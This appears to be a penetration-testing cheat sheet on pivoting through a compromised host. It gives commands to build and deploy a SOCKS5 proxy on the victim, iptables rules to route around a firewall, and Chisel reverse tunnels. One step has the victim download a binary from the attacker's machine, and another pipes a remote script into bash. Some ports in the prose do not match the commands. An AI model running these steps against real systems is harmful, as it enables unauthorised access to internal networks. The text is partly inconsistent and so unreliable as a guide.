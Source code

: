 #### Setting up Socks5 Proxy at the compromised host

The socks5 will forward our incoming requests to any destination we want. In our case, we want to reach the internal network Downloading the proxy at our local machine first

```
root@kali:~$Wget https://raw.githubusercontent.com/mfontanini/Programs-Scripts/master/socks5/socks5.cpp
```

We change the listening port to something below 5555 and set up a username and password. We compile it and make it ready for transfer to the compromised host

```
root@kali:~$g++ -o socks5 socks5.cpp -lpthread
```

We transfer this to the compromised host, give it permissions to run and execute it to listen on the configured port If there is a firewall rule that prevents the compromised host from receiving connections on the port we configured, we can add two IPTABLES rules that forward connections on an allowed port like 80 to the configured port

```
root@kali:~$iptables -t nat -A PREROUTING -s <IP_attacker> -p tcp -i eth1 -–dport 80 -j DNAT –to dest [compromised-server-ip or locahost]:1521
```

```
root@kali:~$ iptables -t nat -A POSTROUTING -d [compromised-server-ip or locahost]:1521 -o eth1 -j MASQUERADE
```

Then we configure proxy chains and add the following Socks5 \[ip or dns name of the compromised host] 80 Then we are ready to discover the internal network

#### SSH Tunneling and Forwarding with Chisel

Download chisel on the attacking machine

```
curl https://i.jpillora.com/chisel! | bash
```

Or use the below link _https://github.com/jpillora/chisel_ _https://github.com/jpillora/chisel/releases/tag/v1.8.1_ Run it on the attacking machine

```
./chisel server -p 2211 --reverse
```

On the host or victim machine run the below to start the client-server communications. Here chisel is run as a client with server at 10.221.98.192:8000 with a \*\*'R'\*\*emote connection from the same machine and port 8001 being forwarded on to port 22 of the newly discovered network machine 172.18.0.1

```
curl http://<attack_machine>:8000/chisel -o chisel
chmod +x chisel
./chisel client attack_machine-ip:2211 R:2211:localhost:631
```
